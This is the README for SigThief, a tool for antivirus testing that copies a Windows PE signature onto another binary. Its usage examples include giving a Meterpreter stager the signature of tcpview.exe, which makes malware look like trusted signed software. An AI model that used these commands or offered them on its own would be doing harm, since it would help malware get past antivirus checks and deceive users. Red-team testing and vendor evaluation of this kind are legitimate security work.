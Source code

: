 # SigThief
Stealing Signatures and Making One Invalid Signature at a Time (Unless you read this:
https://specterops.io/assets/resources/SpecterOps_Subverting_Trust_in_Windows.pdf)

https://twitter.com/subTee/status/912769644473098240
![alt text](https://i.imgur.com/T05kwwn.png "https://twitter.com/subTee/status/912769644473098240")

## For security professionals only...

## What is this?

I've noticed during testing against Anti-Virus over the years that each is different and each prioritize PE signatures differently, whether the signature is valid or not. There are some Anti-Virus vendors that give priority to certain certificate authorities without checking that the signature is actually valid, and there are those that just check to see that the certTable is populated with some value. It's a mess.

So I'm releasing this tool to let you quickly do your testing and feel free to report it to vendors or not. 

In short it will rip a signature off a signed PE file and append it to another one, fixing up the certificate table to sign the file. 

Of course it's **not a valid signature** and that's the point!

I look forward to hearing about your results!


## How to use

### Usage
```
Usage: sigthief.py [options]

Options:
  -h, --help            show this help message and exit
  -i FILE, --file=FILE  file still signature from
  -r, --rip             rip signature off inputfile
  -a, --add             add signautre to targetfile
  -o OUTPUTFILE, --output=OUTPUTFILE
                        output file
  -s SIGFILE, --sig=SIGFILE
                        binary signature from disk
  -t TARGETFILE, --target=TARGETFILE
                        file to append signature too
  -c, --checksig        file to check if signed; does not verify signature
  -T, --truncate        truncate signature (i.e. remove sig)
```

### Take a Signature from a binary and add it to another binary
```
$ ./sigthief.py -i tcpview.exe -t x86_meterpreter_stager.exe -o /tmp/msftesting_tcpview.exe 
Output file: /tmp/msftesting_tcpview.exe
Signature appended. 
FIN.
```

### Save Signature to disk for use later
```
$ ./sigthief.py -i tcpview.exe -r                                                        
Ripping signature to file!
Output file: tcpview.exe_sig
Signature ripped. 
FIN.

```

### Use the ripped signature
```
$ ./sigthief.py -s tcpview.exe_sig -t x86_meterpreter_stager.exe                               
Output file: x86_meterpreter_stager.exe_signed
Signature appended. 
FIN.

```

### Truncate (remove) signature
This has really interesting results actually, can help you find AVs that value Signatures over functionality of code. Unsign putty.exe ;)

```
$ ./sigthief.py -i tcpview.exe -T    
Inputfile is signed!
Output file: tcpview.exe_nosig
Overwriting certificate table pointer and truncating binary
Signature removed. 
FIN.
```

### Check if there is a signature (does not check validity)
```
$ ./sigthief.py -i tcpview.exe -c
Inputfile is signed!
```
